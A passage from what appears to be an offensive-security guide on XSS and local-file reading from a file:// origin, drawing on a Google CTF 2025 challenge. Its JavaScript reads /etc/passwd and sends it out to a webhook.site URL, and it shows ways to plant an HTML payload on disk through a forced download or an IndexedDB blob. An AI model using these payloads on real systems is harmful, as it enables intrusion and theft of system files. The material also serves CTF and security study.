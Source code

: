 ```javascript
const content = await fetch('file:///etc/passwd').then(e => e.text());
navigator.sendBeacon("https://webhook.site/...", content);  // Sends a POST request
```

#### File write XSS

As shared in the [Sourceless challenge during Google CTF 2025](https://gist.github.com/terjanq/4cb40653760c1ba8c33ee06be098d508), there are two main ways of getting a file on the system to achieve XSS from a `file://` origin. The first is to simply trigger an automatic download of a `.html` file (note that this may require HTTPS to prevent a suffix from being added).

```php
<?php
header('Content-Disposition: attachment; filename="exploit.html"');
?>
<script>alert(origin)</script>
```

Which will store it by default to the running user's home directory under the `Downloads/` directory. If the application allows it, you can then visit it through `file:///home/user/Downloads/exploit.html`.

If downloading files is disabled, but a `userDataDir` is set, [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) can write raw blobs to the filesystem to a predictable path in _Firefox_:

<pre class="language-javascript"><code class="lang-javascript">const html = `&#x3C;!DOCTYPE html>&#x3C;html>&#x3C;body>
  &#x3C;script>
    (async () => {
<strong>      const content = await fetch('file:///etc/passwd').then(e => e.text());
</strong><strong>      navigator.sendBeacon("https://webhook.site/...", content);
</strong>    })();
  &#x3C;\/script>
`;
const blob = new Blob([html], { type: "text/html" });

(async () => {
  const store = "files";
  const db = await new Promise((resolve, reject) => {
    const request = indexedDB.open("db", 1);
    request.onupgradeneeded = () => request.result.createObjectStore(store);
    request.onsuccess = () => resolve(request.result);
    request.onerror = () => reject(request.error);
  });
  const tx = db.transaction(store, "readwrite");
  tx.objectStore(store).put(blob, "blob1");
  await tx.done;
  db.close();
})();
</code></pre>

Take the `userDataDir` (for example, `/tmp/firefox-userdata`) and search for your given text:
